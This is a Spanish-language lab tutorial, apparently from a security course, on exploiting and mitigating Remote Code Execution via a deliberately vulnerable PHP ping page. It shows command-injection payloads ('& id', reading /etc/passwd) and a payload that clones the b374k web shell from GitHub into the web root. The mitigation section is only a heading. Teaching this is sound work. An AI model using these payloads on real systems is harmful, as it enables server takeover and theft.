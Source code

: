# Explotación y Mitigación de Remote Code Execution (RCE)

De forma sencilla el ***RCE*** es una vulnerabilidad en la que un servicio web permite hacer una inyección de lenguaje scripting básico, permitiendo a un atacante ejecutar comando sobre el servidor que contiene en servicio web.

El resultado de esos comandos se muestra en la misma página de forma dinámica.

Algunas de las consecuencias que tiene el *RCE*:

+ Acceso a información sensible (usuarios, archivos, configuración).
+ Ejecución de comandos maliciosos (descarga y ejecución de malware).
+ Escalada de privilegios y control total del sistema.

## Creación de página vulnerable a RCE

Vamos a crear una pequeña página llamada: [rce.php](./Recursos/rce.php) con un input que va a recibir una dirección ip y se va a encargar de hacer ping a ella:

![RCE.php](./Imagenes/1.png)

El uso legítimo de la página es recibir una dirección ip y te muestra el resultado del ping:

![ping](./Imagenes/2.png)

Vamos a probar a introducir el comando ***id*** anidado a una dirección ip de la siguiente manera:

```
8.8.8.8 & id
```

Devueve el resultado del ping y ademas devuelve el resultado del comando id:

![ping](./Imagenes/3.png)

Ahora vamos a listar archivos:

![ping](./Imagenes/4.png)

Vamos a leer el contenido de ***/etc/passwd***:

![ping](./Imagenes/5.png)

Ahora vamos a realizar la prueba de intentar ejecutar malware:

Primero le damos permisos a */var/www/html* en nuestro contenedor:

```
sudo chmod -R 777 /var/www/html/
```
Y ahora intentamos descargarnos el malware desde un repositorio de git:

```
8.8.8.8 & git clone https://github.com/b374k/b374k.git /var/www/html/b374k
```


Al ejecutarse se habra descargado la carpeta **b374k** y dentro de ella varios archivos, entre ellos, **index.html** , que si accedemos a el pode¡remos ejecutar los comandos que queramos:

![ping](./Imagenes/6.png)

![ping](./Imagenes/7.png)

Ya tendriamos el control total del sistema.

## Mitigaciones de RCE


Una vez explotadas la vulnerabilidades vamos a ver como mitigarlas:


